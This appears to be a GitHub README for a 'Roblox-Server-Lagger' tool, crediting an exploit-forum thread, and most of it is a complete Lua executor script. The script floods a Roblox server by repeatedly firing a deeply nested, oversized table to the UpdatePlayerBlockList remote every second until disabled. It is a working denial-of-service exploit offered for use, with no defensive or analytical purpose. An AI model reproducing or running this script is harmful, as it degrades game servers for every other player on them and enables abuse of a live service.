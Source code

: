 # Roblox-Server-Lagger
lags roblox servers (originally made/released by https://v3rmillion.net/showthread.php?tid=1168732 to my knowledge, just rewritten)

# Usage
```
getgenv().Enabled = true -- change to false to disable

local Network = game:GetService("NetworkClient")
local Update = game:GetService("RobloxReplicatedStorage").UpdatePlayerBlockList

local Lag = function()
    local Main = {}
    local Spammed = {}
    
    local Table = {}
    table.insert(Spammed, Table)
    
    for _ = 1, 250 do
        local TableToInsert = {}
        
        table.insert(Table, TableToInsert)
        Table = TableToInsert
    end
    
    local Max = (499999 / (255))
    
    for _ = 1, Max do
        table.insert(Main, Spammed)
    end
    
    Update:FireServer(Main)
end

while task.wait(1) and getgenv().Enabled == true do
    task.spawn(Lag)
end
```
